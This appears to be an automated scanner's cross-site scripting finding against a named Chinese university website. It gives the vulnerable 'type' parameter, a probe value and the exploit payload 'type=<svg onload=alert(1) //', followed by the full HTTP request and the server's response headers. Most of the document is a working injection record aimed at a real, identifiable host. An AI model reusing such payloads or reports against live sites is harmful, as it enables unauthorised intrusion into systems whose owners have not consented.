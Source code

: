 ## https://xxgk.ecust.edu.cn/_web/_plugs/siminteract/manage/createSimInteract.do?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 16:59:22 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | type |
| 描述 | html代码未转义可攻击 |
| Payload | type=<ny0018 |
| 利用payload | type=<svg onload=alert(1) // |

### 请求包
```
GET /_web/_plugs/siminteract/manage/createSimInteract.do?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&begindate=utqg9&callback=mlyc4&cat=hgjq8&code=e95j4&csrf_token=vjsu8&enddate=mt0i7&id=yhg47&immagine=prtp6&item=botz0&l=l6e10&list_type=dwym6&mod=kde15&name=f3722&page_id=lml55&q=uvif3&region=ov5w3&search=aqdc5&type=%3Cny0018&uid=s4ee7&year=h83s0 HTTP/1.1
Host: xxgk.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Server: nginx
Date: Thu, 07 Nov 2024 17:01:48 GMT
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval' data: https:
Connection: keep-alive
X-Xss-Protection: 1; mode=block
X-Application-Context: application
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer-when-downgrade
X-Download-Options: SAMEORIGIN
Content-Type: text/html;charset=UTF-8
Set-Cookie: JSESSIONID=9142BDCA1B486A89F1F2AE091BFE41A3; Path=/; HttpOnly
Strict-Transport-Security: max-age=31536000;includeSubdomains; preload
X-Permitted-Cross-Domain-Policies: master-only

```
